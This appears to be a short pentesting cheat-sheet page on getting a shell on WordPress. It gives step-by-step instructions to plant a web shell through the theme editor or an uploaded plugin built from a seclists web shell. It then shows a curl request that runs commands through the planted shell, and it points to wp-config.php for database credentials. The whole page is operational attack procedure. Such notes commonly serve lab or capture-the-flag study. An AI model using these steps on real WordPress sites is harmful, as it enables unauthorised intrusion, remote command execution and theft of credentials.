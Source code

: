 ```yaml
---
title: Wordpress
parent: Shell (Reverse/Others)
layout: default
nav_order: 7
---
```


Appearance -> Themes Editor, then any page. Put in the shell. After that browse to /wp-content/themes/themename/xxx.php to get reverse shell.

/var/www/html/wp-config.php is usually where you will find DB connection info.

To add new plugins in case no theme for us to edit, use the following:
`cd /usr/share/seclists/Web-Shells/WordPress`\
`sudo zip plugin-shell.zip plugin-shell.php`\
Go to wordpress, plugins, then Add New -> Upload plugin -> Browse and select the zip. Install.
RCE:\
`curl http://IP/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=ls`\
If use this remember to encode space with %20, + with %2b